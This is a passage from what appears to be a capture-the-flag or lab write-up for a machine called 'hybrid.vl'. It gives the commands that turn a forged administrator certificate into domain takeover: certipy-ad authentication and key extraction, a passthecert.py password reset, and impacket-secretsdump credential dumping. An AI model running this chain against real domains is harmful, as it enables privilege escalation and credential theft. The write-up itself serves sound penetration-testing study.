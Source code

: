 now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](../images/hybrid%2038.png)

and we got Not Trusted

```bash
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
```

![image.png](../images/hybrid%2039.png)

Now let’s reset the admin password

```bash
python3 passthecert.py -crt administrator.crt -key administrator.key -domain hybrid.vl -dc-ip 10.10.255.101 -target administrator -new-pass -action modify_user
```

![image.png](../images/hybrid%2040.png)

now let’s go and use secretsdump to dump the credentials

```bash
impacket-secretsdump hybrid.vl/administrator:'CkrmFFBPnkFOXoSIq40xL4ZaH92CrRiy'@10.10.255.101
```
